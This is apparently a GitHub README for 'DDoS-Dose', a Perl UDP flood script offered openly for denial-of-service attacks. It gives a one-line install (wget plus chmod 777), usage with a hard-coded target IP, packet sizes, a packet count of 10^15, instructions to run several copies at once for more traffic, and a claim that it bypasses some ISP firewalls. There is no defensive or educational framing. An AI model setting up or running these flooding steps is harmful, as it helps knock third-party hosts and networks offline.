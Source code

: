 # UDP Script for DDoS-Dose !

## Features

- Generate Random UDP Traffic
- From Random Port
- To Random Port
- Require HPC (High Performance Computing) Server
- Can bypass some ISP Firewalls
- Language: Perl


## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer4/UDP/random-udp.pl && chmod 777 * && apt update -y && apt install perl -y

```
    

## Usage

```
Enter Target ---> 
my $target_host = "117.203.8.210"; (Line6)
```
```
You can edit Packet Size on Script --->
my $max_size = 100; (Line 7) Define the max packet size
my $min_size = 50;  (Line 8) Define the min packet size
```
```
You can set how much packet sent to Host? --->
my $packet_count = 1000000000000000; (Line9)
```
```
perl random-udp.pl
```
```
YOU CAN RUN IT MULTIPLE TIME TO INCREASE TRAFFIC LIKE - Depends on CPU/RAM
perl random-udp.pl & perl random-udp.pl & perl random-udp.pl
---> Multithreading Causing Issue
```


## Related

want to pass the Target IP, Packet Size, Packet Count in Command Line

[Click Here for that Script](https://github.com/cyberceros/)


## Authors

- [@cyberceros](https://www.github.com/cyberceros)


## Feedback

If you have any feedback, please reach out to us at n@dultr.in

